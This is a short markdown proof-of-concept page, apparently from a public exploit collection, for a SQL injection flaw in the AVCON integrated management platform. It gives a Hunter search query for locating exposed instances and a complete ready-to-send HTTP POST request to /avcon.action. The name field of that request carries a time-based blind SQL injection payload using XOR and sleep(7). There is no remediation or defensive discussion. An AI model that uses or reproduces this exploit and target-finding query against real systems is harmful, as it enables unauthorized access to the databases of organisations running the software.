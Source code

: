 ## avcon综合管理平台SQL注入漏洞


## hunter
```
web.title="AVCON-系统管理平台"
```
![image](https://github.com/user-attachments/assets/5fcef29d-d71d-44e4-b3fa-56a2b87da9e2)

## poc
```
POST /avcon.action HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

name=0'XOR(if(now()=sysdate()%2Csleep(7)%2C0))XOR'Z&password=u]H[ww6KrA9F.x-F
```
![a9c6cfee7dd8881ea4bf019d82903c04](https://github.com/wy876/POC/assets/139549762/349eafe6-c55e-449f-b6e4-bb01923c07ef)
